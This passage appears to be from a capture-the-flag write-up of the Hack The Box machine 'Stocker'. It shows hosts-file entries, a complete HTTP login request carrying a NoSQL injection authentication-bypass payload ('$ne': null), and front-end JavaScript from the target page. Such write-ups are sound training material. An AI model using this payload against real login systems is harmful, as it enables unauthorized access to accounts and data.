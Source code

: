After finding the subdomain, I added it to the `/etc/hosts`:

```bash
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

#HTB_Boxes
10.10.11.189    precious.htb
10.10.11.196    stocker.htb dev.stocker.htb
```
{: file="/etc/hosts"}

## Initial Access (NO User Privilage Escalation)

After testing the login page for SQLi and XSS, I proceeded to NoSQLi.

With the help of BurpSute, I used the first payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass) and changed the `Content-Type` to `application/json`.

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
Content-Length: 19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.stocker.htb
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dev.stocker.htb/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AiPexV9Wf9Ef0iYz7ImnEZw4tQtQzn_mC.il8l9KEIIk2AUPN%2F1iA0dyq5c5rZeu%2FyynAjRCny%2FKE
Connection: close

{"username": {"$ne": null}, "password": {"$ne": null}}
```

![](blog/htb_m/Stocker/Pasted image 20230205143936.png)

Success!

![](blog/htb_m/Stocker/Pasted image 20230205144018.png)

It appears there is some exposed JS in the source of the page:

```JS
    const $ = (selector) => document.querySelector(selector);

    const basket = [];

    let productStore = [];

    const cartModalElement = $("#cart-modal");
    const cartModal = new bootstrap.Modal(cartModalElement);

    fetch("/api/products")
      .then((response) => response.json())
      .then((products) => {
        productStore = products;
```